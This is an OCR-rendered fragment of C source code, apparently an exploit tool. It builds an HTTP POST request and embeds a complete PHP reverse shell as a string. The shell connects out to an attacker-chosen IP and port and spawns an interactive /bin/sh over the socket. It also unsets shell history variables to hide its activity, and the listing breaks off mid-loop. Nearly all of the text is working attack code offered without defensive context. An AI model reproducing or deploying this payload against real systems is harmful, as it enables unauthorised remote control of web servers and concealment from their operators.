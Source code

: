 >  "(KHTML, like Gecko) Version/6.0 Mobile/10A5355d Safari/8536.25\r\n"   
>  "Content-Type: application/x-www-form-urlencoded\r\n"   
>  "Content-Length: %d\r\n"   
>  "Connection: close\r\n\r\n%s";
> char phpstr[] = "<?php\n"   
> "set_time_limit(0);\n"   
> "$ip = '%s';\n"   
> "$port = %d;\n"   
> "$chunk_size = 1400;\n"   
> "$write_a = null;\n"   
> "$error_a = null;\n"   
> "$shell = 'unset HISTFILE; unset HISTSIZE; uname -a; w; id; /bin/sh -i';\n"   
> "$daemon = 0;\n"   
> "$debug = 0;\n"   
> "if (function_exists('pcntl_fork')) {\n"   
> "  $pid = pcntl_fork();    \n"   
> "  if ($pid == -1) {\n"   
> "      printit(\"ERROR: Can't fork\");\n"   
> "      exit(1);\n"   
> "  }\n"   
> "  if ($pid) {\n"   
> "      exit(0);\n"   
> "  }\n"   
> "  if (posix_setsid() == -1) {\n"   
> "      printit(\"Error: Can't setsid()\");\n"   
> "      exit(1);\n"   
> "  }\n"   
> "  $daemon = 1;\n"   
> "} else {\n"   
> "  printit(\"WARNING: Failed to daemonise.\");\n"   
> "}\n"   
> "chdir(\"/\");\n"   
> "umask(0);\n"   
> "$sock = fsockopen($ip, $port, $errno, $errstr, 30);\n"   
> "if (!$sock) {\n"   
> "  printit(\"$errstr ($errno)\");\n"   
> "  exit(1);\n"   
> "}\n"   
> "$descriptorspec = array(\n"   
> "   0 => array(\"pipe\", \"r\"),\n"   
> "   1 => array(\"pipe\", \"w\"),\n"   
> "   2 => array(\"pipe\", \"w\")\n"   
> ");\n"   
> "$process = proc_open($shell, $descriptorspec, $pipes);\n"   
> "if (!is_resource($process)) {\n"   
> "  printit(\"ERROR: Can't spawn shell\");\n"   
> "  exit(1);\n"   
> "}\n"   
> "stream_set_blocking($pipes[0], 0);\n"   
> "stream_set_blocking($pipes[1], 0);\n"   
> "stream_set_blocking($pipes[2], 0);\n"   
> "stream_set_blocking($sock, 0);\n"   
> "while (1) {\n"   
> "  if (feof($sock)) {\n"   
> "      printit(\"ERROR: Shell connection terminated\");\n"   
> "      break;\n"   
> "  }\n"   
> "  if (feof($pipes[1])) {\n"   
> "      printit(\"ERROR: Shell process terminated\");\n"   
> "      break;\n"   
> "  }\n"   
> "  $read_a = array($sock, $pipes[1], $pipes[2]);\n"   
> "  $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);\n"   
> "  if (in_array($sock, $read_a)) {\n"   